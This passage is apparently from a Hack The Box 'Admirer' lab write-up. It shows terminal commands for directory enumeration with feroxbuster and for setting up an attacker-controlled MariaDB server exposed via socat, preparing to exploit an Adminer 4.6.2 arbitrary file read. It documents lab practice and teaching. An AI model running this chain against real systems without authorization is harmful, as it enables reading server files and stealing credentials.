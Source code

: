 #### Enumerate `/utility-scripts` path discovered in exfiltrated backup
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ feroxbuster --url http://$TARGET/utility-scripts -w /usr/share/wordlists/dirb/big.txt -x php --silent

http://10.129.229.101/utility-scripts
http://10.129.229.101/admin-dir
http://10.129.229.101/utility-scripts/adminer.php
http://10.129.229.101/utility-scripts/info.php
http://10.129.229.101/utility-scripts/phptest.php
```

### Read `index.php` using Arbitrary File Read vulnerability in Adminer 4.6.2 ([CVE-2021-43008](https://nvd.nist.gov/vuln/detail/cve-2021-43008))

#### Host `mariadb` database
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ {cat <<'EOF'> init.sql
CREATE DATABASE IF NOT EXISTS lfi_db;
USE lfi_db;
CREATE TABLE IF NOT EXISTS lfi_table (file VARCHAR(255));
EOF
} && sudo docker run -d \
  --name mariadb-container \
  -e MARIADB_ROOT_PASSWORD=pass \
  -v ./init.sql:/docker-entrypoint-initdb.d/init.sql:ro \
  -p 127.0.0.1:3306:3306 \
  mariadb:10.5
529adea6cebbe743f72999bba444c7e32504c454697c3d25fe1c30cf3a001953
```

#### Expose database port with `socat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Admirer]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
sudo socat TCP-LISTEN:3306,bind=$LHOST,fork TCP:127.0.0.1:3306
```

#### Login to hosted database using Adminer
![Adminer login](images/adminer_login.png)

